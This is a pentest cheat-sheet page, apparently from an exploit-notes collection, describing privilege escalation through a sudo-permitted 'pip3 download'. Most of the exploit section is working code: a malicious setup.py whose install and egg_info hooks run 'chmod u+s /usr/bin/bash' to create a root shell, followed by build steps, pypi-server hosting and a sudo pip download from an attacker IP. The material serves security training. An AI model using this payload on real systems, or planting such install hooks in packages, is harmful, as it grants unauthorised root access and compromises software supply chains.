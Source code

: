 # Pip Download Code Execution

## Theory 

Pip is a package management system written in Python. It can download custom Python package so we can create a malicious package to execute arbitrary code.

## Practice 

{% tabs %}
{% tab title="Enumerate" %}
Assume that `pipe download` can be executed as root with sudo rights. if we controll its input, then its vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /usr/bin/pip3 download http\://*.tar.gz
```
{% endtab %}

{% tab title="Exploit" %}
On attacking machine, we can clone the [this_is_fine_wuzzi](https://github.com/wunderwuzzi23/this_is_fine_wuzzi) GitHub repo, or create our own source for the pip package as follow:

- Assuming the package name is `MySimplePackage`. We need to create the following files and folders: `setup.py` in the project root, and `init.py`, `main.py` in src directory.
```bash
mkdir MySimplePackage && cd MySimplePackage
touch setup.py
mkdir src
touch src/__init__.py
echo 'print("hello")' > src/main.py
```

- write something similar in the `setup.py` file. You may edit the `RunCommand()` function.
```python
# setup.py
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info

def RunCommand():
	# Arbitrary code here!
	import os;os.system("chmod u+s /usr/bin/bash")

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "MySimplePackage",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)
```

- Build the malicious package
```bash
# If you don't have modules below, install them first.
pip3 install setuptools
pip3 install build

# Build - It generates .tar.gz file in dist folder.
python3 -m build
```

Finally host the package and run the `pip download` on the victime machine
```bash
sudo /usr/bin/pip3 download http://<ATTACKING_IP>/MySimplePackage-0.0.1.tar.gz
```

{% hint style="info" %}
We can host the package using `pypi-server`
```bash
# Install the module if you don't have it
pip3 install pypiserver

# Copy the tar.gz file into the "package" folder.
mkdir package
cp ./MySimplePackage/dist/MySimplePackage-0.0.1.tar.gz ./package
pypi-server run -v -p 8000 ./package
```

And download it as follow
```bash
pip3 download exploitpy --index-url https://localhost:8000 -v
```
{% endhint}

{% endtab %}
{% endtabs %}

## References

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/pip-download-code-execution/" %}
